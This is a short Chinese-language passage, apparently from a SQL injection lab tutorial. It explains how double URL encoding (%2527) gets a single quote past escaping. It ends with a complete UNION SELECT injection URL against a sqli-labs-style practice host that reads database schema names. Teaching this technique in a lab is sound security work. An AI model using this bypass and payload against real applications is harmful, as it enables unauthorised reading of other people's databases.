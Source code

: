 判断是否存在二次编码注入

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1676007277322-3f8f1670-ab8d-4bc1-beab-4af728791ed4.png)

可以看到单引号被转义了，使用编码

以上图片体现二次编码 ，%25由于编码作用被转义为%，而接下来的%27二次编码被转义为'

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1676007348040-b6096924-bfa5-4e5b-88f8-38ed216c9ce3.png)

下面即可正常进行SQL注入

```sql
http://d16.s.iproute.cn/Less-1/doublecode.php?id=-1%2527 union select 1,2,(select schema_name from information_schema.schemata limit 0,1)--+
```
